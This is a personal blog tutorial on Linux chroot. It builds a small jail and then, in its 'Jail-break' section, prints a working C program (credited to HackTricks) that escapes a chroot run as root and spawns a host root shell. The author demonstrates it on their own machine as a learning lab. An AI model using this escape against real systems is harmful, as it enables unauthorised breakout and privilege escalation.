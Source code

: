 ```yaml
---
layout: post
title: Looking into CHROOT
categories: [Linux]
---
```



## **What is Chroot?**

According to linux documentation...

> chroot - run command or interactive shell with special root directory

 Chroot is used in lots of different situation. As creating isolated testing environment for developers, running deprecated software that require older libraries, recovery filesystem...

  I remembered i use it when installing arch linux few years back, it also save me when my GRUB bootloader get broken on my old ubuntu PC. 

 ## **Practice**

 Okay enough chit-chat, let's roll out sleeves and deep dive into chroot. I will create simple sandbox bash environment with few commands as `touch`, `rm`, `ls` and `id`.  You need any linux distribution where you have admin/sudo rights. I used Ubuntu desktop for this example.

I created folder chroot-jail inside my home directory

```bash 
mkdir chroot-jail
```

I need to create folders bin,lib,lib64 and urs inside my newly created folder. 

```
mkdir -p chroot-jail/{bin,lib,lib64,usr/bin}
```
{} help me create multiple folders in my chroot-jail folder 
-p help me create folder bin inside urs inside chroot-jail :) it help create nested folders

![](/images/chroot/01-folders.png)

Now I need to copy all binaries I want to use. As I mentioned before I will copy `bash`,`touch`,`ls` and `rm` into my chroot-jail/bin folder and `id` into chroot-jail/usr/bin

![](/images/chroot/02-copy.png)

It's not that easy just copy binaries over. Every binary has some library dependencies. I need to copy that library into correct lib folder. To check dependencies I used `ldd` command.

![](/images/chroot/03-ldd.png)

I can see `bash` binary depends on few libraries. 3 of them I copied to lib folder and last one to lib64 folder. I will do exact same thing for `touch`,`ls`,`rm` and `id` binaries. If no missing library is there we can run command 

```bash 
sudo chroot chroot-jail /bin/bash
```

![](/images/chroot/04-jail.png)

I am in new shell. I can test all binaries I copied before. I can see all of them are working as expected. If I want to run binaries that are not inside my chroot-jail folder I will get error message.

![](/images/chroot/05-error.png)

## **Jail-break**

Chroot is not security feature. As you can see from man pages

> In particular, it is not intended
       to be used for any kind of security purpose, neither to fully
       sandbox a process nor to restrict filesystem system calls. 

If I looked into [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash) and there was really nice C script for escaping. It looks like this...

```C
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>
//gcc break_chroot.c -o break_chroot
int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

I can compile this script with this command

```bash 
gcc script.c -o spyx
```

and copy it into my chroot-jail folder and test it. 

![](/images/chroot/06-break.png)

I became root on my own hosts! As we can see I became immediate root because I run chroot with sudo privileges.

Thanks for reading....